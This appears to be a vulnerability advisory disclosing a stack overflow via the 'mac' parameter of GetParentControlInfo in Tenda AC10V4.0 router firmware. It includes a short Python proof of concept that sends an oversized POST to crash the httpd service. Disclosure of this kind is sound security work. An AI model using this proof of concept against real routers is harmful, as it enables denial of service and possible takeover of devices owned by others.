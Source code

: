 # Tenda AC10V4.0 were discovered to contain a stack overflow via the mac parameter in the GetParentControlInfo function.

> vendor:Tenda
>
> product:AC10V4
>
> version:US_AC10V4.0si_V16.03.10.13_cn_TDC01
>
> type:Stack Overflow  

## Vulnerability Description

Tenda AC10V4.0 si_V16.03.10.13_cn_TDC01 were discovered to contain a stack overflow via the mac parameter in the GetParentControlInfo function.

## Vulnerability Details

In function GetParentControlInfo line 35, it reads in a user-provided parameter, and the variable is passed to the function without any length check, which may lead to overflow of the stack-based buffer. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.

![src0](https://github.com/aixiao0621/Tenda/blob/main/AC10/src0.jpg)

## Recurring vulnerabilities and POC

Run poc and you will see process httpd crash, segmentation fault.

```
import requests
    
host = "192.168.59.136:80"
cy = b'a'*1000
def exploit_GetParentControlInfo():
    url = f"http://{host}/goform/GetParentControlInfo"
    data = {
        b'mac':cy
    }
    res = requests.post(url=url,data=data)
    print(res.content)
exploit_GetParentControlInfo()
```

![src1](https://github.com/aixiao0621/Tenda/blob/main/AC10/src1.jpg)
